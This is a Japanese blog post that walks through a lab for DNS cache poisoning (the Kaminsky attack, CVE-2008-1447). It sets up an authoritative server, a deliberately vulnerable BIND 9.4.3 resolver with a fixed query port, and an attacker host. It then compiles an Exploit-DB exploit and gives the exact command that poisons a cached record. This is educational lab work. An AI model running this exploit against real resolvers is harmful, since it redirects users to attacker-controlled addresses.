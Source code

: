 ```yaml
---
layout: post
title:  "DNSキャッシュポイズニング"
date:   2018-08-21
permalink: /security/:title
categories: Security
tags: DNS PWN CVE-2008-1447 CVE-2008-4194
excerpt: DNSキャッシュポイズニングのハンズオンシナリオです
mathjax: false
---
```


* content
{:toc}

## 攻撃の概要

### キャッシュの仕組み
DNSキャッシュサーバ自身はゾーンファイルを保持しない。
問い合わせに応じて権威DNSサーバに問い合わせた結果をそのまま返す。
この時取得したレコードはキャッシュに保存される。
キャッシュが破棄される前に同じ問い合わせがあった場合は権威DNSサーバに問い合わせずに結果を返す。

![]({{site.baseurl}}/images/dns-cache-poizoning/dns002.png)

### 階層構造の仕組み
ある権威DNSサーバの管理下に無いドメインの問い合わせは別の権威DNSサーバにリダイレクトされる。
権威DNSサーバはadditionalレコードに別の権威DNSサーバのホスト名とIPアドレスを指定してリゾルバに返す。
リゾルバはこれを参照して別の権威DNSサーバに問い合わせる。
これを繰り返すことでDNSの階層構造が実現される。

![]({{site.baseurl}}/images/dns-cache-poizoning/dns003.png)

### 攻撃の仕組み

攻撃対象ドメインに存在しないホストの名前解決をリクエストしてから、権威DNSサーバの応答よりも早く偽の応答を送り付ける。
偽の応答のadditionalレコードには権威DNSサーバとして攻撃対象ホストと偽のIPアドレスを指定する。
脆弱性のあるDNSキャッシュサーバはadditionalレコードの情報をキャッシュするので、これ以降のwww.sample.localの名前解決には100.100.100.100が返される。

![]({{site.baseurl}}/images/dns-cache-poizoning/dns004.png)

攻撃の詳細はJPRSの[Kaminsky Attackの全て][Kaminsky Attackの全て]を参照

## サーバ構築

3台のCentOS7でPoC環境を構築する。

![]({{site.baseurl}}/images/dns-cache-poizoning/env.png)

個々のサーバを構築する前によく使うツールを全てのホストに入れておくこと。

```bash
# yum install -y vim wget gcc bind-utils
```

### 権威DNSサーバ
named.confの記述
```bash
# vim /etc/named.conf

options {
  directory "/var/named";
  pid-file  "/run/named/named.pid";
  listen-on port 53 { any; };
  allow-query       { any; };
};
zone "sample.local" IN {
  type master;
  file "sample.local.zone";
};
```

zoneファイルの記述
```bash
# vim /var/named/sample.local.zone

@     IN    SOA    sample.local. root.sample.local. (
                   2018062901
                   60
                   60
                   60
                   60
                   )
;
      IN    NS     ns.sample.local.
;
      IN    MX     0 mail.sample.local
;
ns    IN    A      172.16.0.3
www   IN    A      172.16.0.100
mail  IN    A      172.16.0.100
```

攻撃を成功させやすくするためにNICに200msの遅延を設定
```bash
# tc qdisc add dev enp0s8 root netem delay 200ms
```

サービス起動
```bash
# systemctl start named
```

### DNSキャッシュサーバ
デフォルトのnamedを削除して脆弱性のあるバージョン9.4.3をソースからインストールする
```bash
# yum -y remove bind
# wget https://ftp.isc.org/isc/bind9/9.4.3/bind-9.4.3.tar.gz
# tar zxvf bind-9.4.3.tar.gz
# cd bind-9.4.3
# ./configure
# make
# make install
```
起動スクリプトの作成
```bash
# vim /usr/lib/systemd/system/named.service

[Unit]
Description=Berkeley Internet Name Domain (DNS)

[Service]
Type=forking
PIDFile=/run/named/named.pid

ExecStartPre=/bin/bash -c 'if [ ! "$DISABLE_ZONE_CHECKING" == "yes" ]; then /usr/local/sbin/named-checkconf -z /etc/named.conf; else echo "Checking of zone files is disabled"; fi'

ExecStart=/usr/local/sbin/named -u named $OPTIONS

ExecReload=/bin/sh -c '/usr/local/sbin/rndc reload > /dev/null 2>&1 || /bin/kill -HUP $MAINPID'

ExecStop=/bin/sh -c '/usr/local/sbin/rndc stop > /dev/null 2>&1 || /bin/kill -TERM $MAINPID'

PrivateTmp=true

[Install]
WantedBy=multi-user.target
```
named.confの作成

権威DNSサーバにソースポート10000で問い合わせるようにする
```bash
# vim /etc/named.conf

options {
  directory "/var/named";
  pid-file "/run/named/named.pid";
  listen-on port 53 { any; };
  allow-query { any; };
  forwarders { 172.16.0.3; };
  query-source address * port 10000;
  recursion yes;
};
```

pidファイルの所有権を変更する
```bash
# useradd named
# chown named:named /run/named
```

サービス起動
```bash
# systemctl daemon-reload
# systemctl start named
```
### 攻撃サーバ
CVE-2008-1447/CVE-2008-4194のエクスプロイトコードをコンパイルする
```bash
# wget https://www.exploit-db.com/download/6130.c
# yum install -y libdnet-devel
# ln -s /usr/include/dnet.h /usr/include/dumbnet.h
# gcc -o kaminsky-attack 6130.c `dnet-config --libs` -lm
```

## 攻撃
sample.localのDNSキャッシュサーバを攻撃してwwwのキャッシュを1.2.3.4に書き換える
```bash
# ./kaminsky-attack 172.16.0.1 172.16.0.2 172.16.0.3 10000 www sample.local. 1.2.3.4 8192 16
```
キャッシュが1.2.3.4に書き換えられた事を確認する
```bash
# dig @172.16.0.2 www.sample.local
```

裏でどんなパケットが飛んでいて、サーバのログには何が残っているのか確認しておくと良い。

## 参考情報
- [JPRS](https://jprs.jp/glossary/index.php?ID=0228)
- [Kaminsky Attackの全て][Kaminsky Attackの全て]
- [Exploit-DB](https://www.exploit-db.com/exploits/6130/)

[Kaminsky Attackの全て]: https://www.nic.ad.jp/ja/materials/iw/2008/proceedings/H3/IW2008-H3-07.pdf
